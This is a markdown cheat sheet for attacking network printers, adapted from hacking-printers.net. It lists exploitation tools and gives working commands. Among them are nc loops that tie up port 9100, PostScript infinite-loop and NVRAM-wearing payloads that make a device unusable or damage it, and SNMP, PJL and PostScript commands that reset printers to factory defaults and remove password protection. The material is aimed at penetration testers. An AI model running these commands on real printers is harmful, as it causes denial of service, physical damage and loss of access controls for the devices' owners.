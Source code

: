 # printer-hacking

> Adapted from http://hacking-printers.net/

## Printer Hacking Tools

- [PRET](https://github.com/RUB-NDS/PRET) - Printer Exploitation Toolkit
- [Praeda](https://github.com/percx/Praeda) - Automated Printer Data Harvesting Tool
- [PFT & Hijetter](http://www.phenoelit.org/hp/) - One of the Early Network Printer Exploitation Tools
- [BeEF](https://github.com/beefproject/beef) - Browser Exploitation Framework that can be used for performing [Cross-site printing](http://hacking-printers.net/wiki/index.php/Cross-site_printing)

## Protocols/Languages
- [PostScript](http://hacking-printers.net/wiki/index.php/PostScript)
- [Printer Job Language (PJL)](http://hacking-printers.net/wiki/index.php/PJL)
- [Simple Network Management Protocol (SNMP)](http://hacking-printers.net/wiki/index.php/SNMP)
- [TCP](https://en.wikipedia.org/wiki/Transmission_Control_Protocol)
- [Printer Management Language (PML)](http://hacking-printers.net/wiki/index.php/PML)
- [Internet Printing Protocol (IPP)](http://hacking-printers.net/wiki/index.php/IPP)
- [Line Printer Daemon (LPD)](http://hacking-printers.net/wiki/index.php/LPD)

## Typical Steps

- perform [generic network assessment](http://www.vulnerabilityassessment.co.uk/Penetration%20Test.html)
- information gathering with Praeda
- use the [cheatsheet](http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet) to find and exploit flaws
- use PRET for fun & profit

## Cheatsheet

### [Denial of Service](http://hacking-printers.net/wiki/index.php/Denial_of_service)

#### [Transmission Channel](http://hacking-printers.net/wiki/index.php/Transmission_channel)

- TCP Protocol
- If print jobs are processed in series – which is assumed for most devices – only one job can be handled at a time.
- Setting high timeout value can effectively be used to enhance attack.
- Simple way with nc: `while true; do nc printer 9100; done`
- Set maximum timeout value as in following shell script:

```shell
# get maximum timeout value with PJL
MAX="`echo "@PJL INFO VARIABLES" | nc -w3 printer 9100 |\
  grep -E -A2 '^TIMEOUT=' | tail -n1 | awk '{print $1}'`"
# connect and set maximum timeout for current job with PJL
while true; do echo "@PJL SET TIMEOUT=$MAX" | nc printer 9100; done
```
- With PRET, a sample session to get timeout values would look like below:

```shell
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> env timeout
TIMEOUT=15 [2 RANGE]
       5
       300
```

#### [Document Processing](http://hacking-printers.net/wiki/index.php/Document_processing)

- sending malicious print job to cause DoS
- abuse of allowing infinite loops or calculations that require a lot of computing time can be abused to keep the printer's RIP busy
- With PS and PJL
- Commands with PRET and PostScript: `disable`, `hang`

```shell
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hang
Warning: This command causes an infinite loop rendering the
device useless until manual restart. Press CTRL+C to abort.
Executing PostScript infinite loop in... 10 9 8 7 6 5 4 3 2 1 KABOOM!

./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> disable
Disabling printing functionality
```

- Commands with PRET and PJL: `disable`, `offline`

```shell
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> disable
Printing functionality: OFF

./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> offline "MESSAGE TO DSIPLAY"
Warning: Taking the printer offline will prevent yourself and others
from printing or re-connecting to the device. Press CTRL+C to abort.
Taking printer offline in... 10 9 8 7 6 5 4 3 2 1 KABOOM!
```

#### [Physical Damage](http://hacking-printers.net/wiki/index.php/Physical_damage)

- Using PS and PJL
- On PRET, both PS and PJL mode support `destroy` command
- exploiting finite number of rewrites on NVRAM
- Example PJL: `@PJL DEFAULT COPIES=X` where X is number of copies
- PostScript example

```
/counter 0 def
{ << /Password counter 16 string cvs
     /SystemParamsPassword counter 1 add 16 string cvs
  >> setsystemparams /counter counter 1 add def
} loop
```

### [Privilege Escalation](http://hacking-printers.net/wiki/index.php/Privilege_escalation)

#### [Factory Defaults](http://hacking-printers.net/wiki/index.php/Factory_defaults)

- resetting device to factory defaults often opens holes as the factory defaults are usually known/public
- can usually be done by pressing a special key combination on the printer's control panel

*Using SNMP*

- The Printer-MIB defines the prtGeneralReset Object (OID 1.3.6.1.2.1.43.5.1.1.3.1) which allows an attacker to restart the device (powerCycleReset(4)), reset the NVRAM settings (resetToNVRAM(5)) or restore factory defaults (resetToFactoryDefaults(6)) using SNMP.
- supported by a large variety of printers and removes all protection mechanisms like user-set passwords for the embedded web server
- all static IP address configuration will be lost and without DHCP service on network, attacker might not be able to reconnect
- use SNMP to test this attack : `snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6`
- Anyone who can send network packets to port 161/udp of the printer device can perform this attack

*Using PML/PJL*

- most likely to only work on HP printers because SNMP can be transformed into its PML representation and embed the request within a legitimate print job on HP printers
- Example PJL : `@PJL DMCMD ASCIIHEX="040006020501010301040106"`
- PRET example

```
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```

- Anyone who can print, for example through USB drive or cable, Port 9100 printing or Cross-site printing can perform this attack.

*Using PostScript*

- `FactoryDefaults` system parameter, a flag that, if set to true immediately before the printer is turned off, causes all nonvolatile parameters to revert to their factory default values at the next power-on
- Restarting the printer on the other hand can be accomplished by SNMP and PML
- Restarting with PostScript requires valid password so restart might be easier to get done with SNMP/PML after postscript attack
- Infinite loop attack via postscript might be an alternative for forcing users to reboot their printers
- Set Postscript sys params to factory defaults: `<< /FactoryDefaults true >> setsystemparams` and restart the PostScript interpreter and virtual memory with `true 0 startjob systemdict /quit get exec`
- PRET Example

```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
